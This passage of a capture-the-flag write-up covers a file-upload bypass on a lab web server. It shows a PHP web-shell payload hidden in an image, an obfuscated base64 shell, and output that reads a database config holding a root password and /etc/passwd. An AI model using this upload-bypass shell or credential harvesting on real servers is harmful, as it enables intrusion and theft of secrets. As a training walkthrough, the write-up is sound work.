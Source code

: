 **blind xss** :3  
use the cookie session for bypass the login and get another flag.  
![recon2](./img/recon2.png "recon2")

magic byte is checked in here and if the file we upload doesn't equal to png/jpg it will be blocked.  
the uploaded file will be send to `http://10.0.1.1:1337/img/`. send reverse shell payload inside  
image file, the file is uploaded but shell is not spawned :(  
it looks like the server block the shell function such as `system/shell_exec/exec` or etc.  

to solve this problem i'll try to read the config file and gather db credentials.  
append this payload into image and upload it  
`<?php var_dump(file_put_contents('shell.php', base64_decode('PD9waHAgJF89ImB7e3siXiI/PD4vIjt2YXJfZHVtcCgkeyRffVskX10oJHskX31bXy5fLl8uX10pKTs=')));`
```php
...
++++++++++| read post.php |++++++++++
...
  require_once('config.php');
  $conn = mysqli_connect($DBHOST, $DBUSER, $DBPSWD, $DBNAME);
...
++++++++++| read config.php |++++++++++
...
	$DBNAME = "sixes";
	$DBHOST = "localhost";
	$DBUSER = "root";
	$DBPSWD = "sGqIk41xt39B5zg77DgJaNKCTuGCav5w";

```

testing login with the credential and failed. it's not valid credential and i can assume this  
login credential is just for mysql.  

first identify our username with uid and match it with /etc/passwd  
```php
...
++++++++++| stat /var/www/html/img/shell.php |++++++++++
...
  int(1)
  ["uid"]=>
  int(33)
  ["gid"]=>
  int(33)
...
++++++++++| snippet /etc/passwd |++++++++++
...
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin		// match!
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
...
```
